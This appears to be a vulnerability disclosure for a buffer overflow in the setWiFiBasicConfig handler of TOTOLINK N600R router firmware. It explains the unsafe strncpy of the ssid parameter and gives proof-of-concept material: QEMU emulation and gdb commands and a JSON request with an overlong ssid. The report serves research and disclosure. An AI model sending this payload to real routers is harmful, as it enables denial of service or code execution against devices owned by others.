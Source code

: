 # Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Buffer Overflow

## Description:
The vulnerable code is within the setWiFiBasicConfig function in cstecgi.cgi. It extracts the `ssid` parameter into `v10` and passes it into the `strncpy` function while the string copy size is also derived from the `ssid` parameter by `v23 = strlen(v10)`. When `ssid` is specified with excessive data (>36), a buffer overflow occurs.

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)

## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./sub_41E0C0.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi_41E0C0.cgi
```

### sub_41E0C0.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_41E0C0.cgi  < sub_41E0C0.json
```
### sub_41E0C0.json
```json
{
        "topicurl" : "UploadCustomModule/setWiFiBasicConfig",
        "ssid" : "1111111111111111111111111111111111111111111111111111111111111llllllllllllllllllllabcdDOIT"
}
```